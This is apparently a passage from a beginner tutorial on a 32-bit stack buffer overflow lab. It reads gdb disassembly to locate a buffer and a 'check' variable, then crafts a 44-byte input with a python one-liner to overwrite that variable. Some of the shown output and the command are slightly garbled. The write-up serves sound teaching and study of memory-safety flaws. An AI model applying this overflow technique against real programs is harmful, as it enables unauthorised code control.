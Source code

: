 Wow that's a lot of letters and numbers. So lets break this down and look at the parts where the buffer, and variables are placed onto the stack.
```
   0x0804849d <+9>:	mov    DWORD PTR [esp+0x3c],0x4030201
```

Here our `check` variable is placed onto the stack at `esp+60`.  I will just convert arbitrarily between decimal and hexadecimal depending on the convenience.

```gdb
   0x080484a5 <+17>:	mov    eax,ds:0x804a020
   0x080484aa <+22>:	mov    DWORD PTR [esp+0x8],eax
   0x080484ae <+26>:	mov    DWORD PTR [esp+0x4],0x2d
   0x080484b6 <+34>:	lea    eax,[esp+0x14]
   0x080484ba <+38>:	mov    DWORD PTR [esp],eax
   0x080484bd <+41>:	call   0x8048390 <fgets@plt>
```
Here, three variables are placed onto the stack.  These will be the arguments being sent to the fgets function.  In 32-bit system's a function call takes it's arguments off the top of the stack. In this case I'll try and convert what's happening in the assembly into english step-by-step.

```gdb
mov    eax,ds:0x804a020 ; Place the value 0x804a020 into the eax register
mov    DWORD PTR [esp+0x8],eax  ; Take the value in the eax register, 0x804a020 , and place it at the memory location esp+0x8.
mov    DWORD PTR [esp+0x4],0x2d ; Take the value 0x2d, and place it at the memory location esp+0x4
lea    eax,[esp+0x14] ; Calculate the result of esp+0x14 and place it in the eax register
mov    DWORD PTR [esp],eax ; Take this result of esp+0x14 and place it at the location in memory denoted by esp.
```

So in effect we've placed at memory locations, esp, esp+0x4 and esp+0x8, three different values:
```
 -------------------
|     esp + 0x8     | <---- 0x804a020
 -------------------
|     esp + 0x4     | <---- 0x2d
 -------------------
|        esp        | <---- esp+0x14
 -------------------
```

Right after these operations take place, the `fgets` function is called.  These three values we've just placed on the stack as above are the arguments to the function `fgets` as in the C code.  This is in line with 32 bit calling conventions, arguments are placed upon the stack.  If you try some 64-bit exploitation examples, they'll actually be popped into registers (up to a point), so remember that if you find yourself unwittingly in 64-bit land.
```c
fgets(buf,45,stdin);
```

So `0x804a020` is the location of the stdin handle, `0x2d` is just 45 and `esp+0x14` will be where our buffer is located on the stack.

We've established earlier that our check variable is located at `esp+60` and since our buffer is at `esp+20`, if we place 44 bytes into fgets, the first 40 will fill the buffer, whilst the next 4 will overwrite the check variable.  Lets test this out quickly.  We'll use the following code to generate a file:
```bash
python -c 'print "A"*44'`> /tmp/overflow
```


[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ 
[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ 